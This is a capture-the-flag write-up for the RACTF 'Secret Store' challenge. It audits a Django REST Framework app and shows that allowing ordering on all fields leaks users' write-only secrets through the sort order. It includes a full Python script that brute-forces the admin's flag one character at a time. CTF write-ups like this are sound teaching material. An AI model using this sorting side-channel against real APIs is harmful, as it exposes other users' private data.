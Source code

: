 ## RACTF - Secret Store [ 300 points ] (6 solves)
**Description**

> How many secrets could a secret store store if a store could store
> secrets?

## General overview
The web app is a Django application where you can register/login as a user and save a secret text which shouldn't be visible to anyone else except you in your home page when you login. Other users can also post their own secret text and the goal is to find a way to stole the secret from other users in order to read the flag from the admin.
## Code audit
There is a rest framework implemented with [djangorestframework](https://pypi.org/project/djangorestframework/) for the secret text that users are posting. We can peek a look at his views and models inside the secret folder where the source is located. We can see the secret's model inside secret/models.py:

```python
class  Secret(models.Model):
	value  =  models.CharField(max_length=255)
	owner  =  models.OneToOneField(User, on_delete=CASCADE)
	last_updated  =  models.DateTimeField(auto_now=True)
	created  =  models.DateTimeField(auto_now_add=True)
```
And there is a model serializer for the model Secret inside secret/serializers.py:
```python
class  SecretSerializer(serializers.ModelSerializer):
	class  Meta:
		model  =  Secret
		fields  = ["id", "value", "owner", "last_updated", "created"]
		read_only_fields  = ["owner", "last_updated", "created"]
		extra_kwargs  = {"value": {"write_only": True}}

	def  create(self, validated_data):
		validated_data["owner"] =  self.context["request"].user
		if  Secret.objects.filter(owner=self.context["request"].user):
			return  super(SecretSerializer, self).update(Secret.objects.get(owner=self.context['request'].user), validated_data)
		return  super(SecretSerializer, self).create(validated_data)
```
From the serializer we can see that the fields owner, last_updated, created and (implicitly) the id are read only, and the value field is write only.
Inside secret/views.py we can see the views of the web app and what they are doing:
```python
class  SecretViewSet(viewsets.ModelViewSet):
	queryset  =  Secret.objects.all()
	serializer_class  =  SecretSerializer
	permission_classes  = (IsAuthenticated  &  IsSecretOwnerOrReadOnly,)
	filter_backends  = [filters.OrderingFilter]
	ordering_fields  =  "__all__"

class  RegisterFormView(CreateView):
	template_name  =  "registration/register.html"
	form_class  =  UserCreationForm
	model  =  User
	success_url  =  "/"

def  home(request):
	if  request.user.is_authenticated:
		secret  =  Secret.objects.filter(owner=request.user)
	if  secret:
		return  render(request, "home.html", context={"secret": secret[0].value})
	return  render(request, "home.html")
```
We can see the home page view which just asks the database if a logged in user has a secret and displays it to him if it does, inside the home page. Apart from this view we can see that is implemented a ViewSet which is basically an easy automated way to query the database and display to the user the results. In our case we can get a json with all read only fields of the Secret serializer for example visiting [http://challange/api/secret?format=json](https://www.django-rest-framework.org/api-guide/format-suffixes/) we get as a result:

    [{"id":1,"owner":1,"last_updated":"2021-08-04T21:55:59.750611Z","created":"2021-08-04T21:55:32.221867Z"},{"id":2,"owner":8,"last_updated":"2021-08-13T20:16:05.306976Z","created":"2021-08-13T20:16:05.307065Z"},{"id":3,"owner":12,"last_updated":"2021-08-13T22:17:15.718312Z","created":"2021-08-13T21:41:25.913725Z"},{"id":4,"owner":113,"last_updated":"2021-08-14T16:08:40.385043Z","created":"2021-08-14T16:07:45.011707Z"},{"id":5,"owner":111,"last_updated":"2021-08-14T17:50:00.910477Z","created":"2021-08-14T17:50:00.910544Z"},{"id":6,"owner":126,"last_updated":"2021-08-15T08:23:42.895236Z","created":"2021-08-15T08:04:32.918062Z"},{"id":7,"owner":129,"last_updated":"2021-08-15T08:53:06.531769Z","created":"2021-08-15T08:53:06.531818Z"},{"id":8,"owner":133,"last_updated":"2021-08-15T17:48:13.303999Z","created":"2021-08-15T12:34:30.069458Z"},{"id":9,"owner":134,"last_updated":"2021-08-15T17:17:50.206823Z","created":"2021-08-15T17:17:33.212906Z"}]
Reading carefully django's rest framework documentation for [OrderingFilter](https://www.django-rest-framework.org/api-guide/filtering/#orderingfilter) we can see that we can supply an ordering query parameter to filter (sort) out our json output to our needs. Reading further the documentation we spot the following line:

> If you are confident that the queryset being used by the view doesn't contain any sensitive data, you can also explicitly specify that a view should allow ordering on _any_ model field or queryset aggregate, by using the special value `'__all__'`.

Which is exactly our case :), our own little SecretViewSet specifies that we can filter by any field our query, so basically we can post a secret with initial value `ractf{` , order the output by `values` and compare our own secret value with the admin's secret value which i assume is the user with id=1 and owner=1.
## Exploit

```python
import requests
from bs4 import BeautifulSoup
import json
import string

def find_owner(orderings, owner):
    for i, ordering in enumerate(orderings):
        if ordering['owner'] == owner:
            return i
    
    #Owner not found in orderings
    return None

session = requests.Session()
url = 'http://challenge:port' # Change this
login_url = f'{url}/auth/login/'
logout_url = f'{url}/auth/logout/'
api_secret_url = f'{url}/api/secret/'

r = session.get(url = login_url)
parse = BeautifulSoup(r.text, "html.parser")

# Extract csrf token to be able to login
csrf_token = parse.find_all('input')[0]['value']

# You have to register agent007 first.
post_data = {
    'csrfmiddlewaretoken': csrf_token,
    'username': 'agent007',
    'password': 'SecretPassword007.'
}

flag = r'ractf{' # Final flag ractf{data_exf1l_via_s0rt1ng_0c66de47}

# Sign in to agent007
r = session.post(url  = login_url, 
                 data = post_data)

# Let's save some secrets ;)
r = session.post(url = api_secret_url, 
                 json = {
                     'value': flag
                 }, 
                 headers = {
                     'X-CSRFToken': session.cookies['csrftoken']
                 }
)

print(f'Status code === {r.status_code}')
_, owner, _, _ = json.loads(r.text).values() # Get our owner id in order to be able to recognize our position in the final orderings

# When positive means we surpassed the flag value
# When negative means we need to go forward
# When from negative becomes positive it means the previous character was the correct character of the nth pos of the flag
cmp = 0

alphabet = string.digits + ':_`' + string.ascii_letters + '}~'
while not '}' in flag:
    # Iterate through every character in the alphabet
    # Post the flag appended with this character as our little secret and compare the results to bruteforce the characters of the flag
    for c in alphabet:
        r = session.post(url = api_secret_url, 
                    json = {
                        'value': flag + c
                    }, 
                    headers = {
                        'X-CSRFToken': session.cookies['csrftoken']
                    }
        )
        
        orderings = json.loads(
            session.get(url = api_secret_url + '?format=json&ordering=value').text
        )
        
        orderings_user_idx = find_owner(orderings, owner)
        orderings_flag_idx = find_owner(orderings, owner = 1)
        cmp = orderings_flag_idx - orderings_user_idx
        if cmp < 0:
            prev_c = chr(ord(c)-1)
            print(flag + prev_c)
            flag += prev_c
            break
```

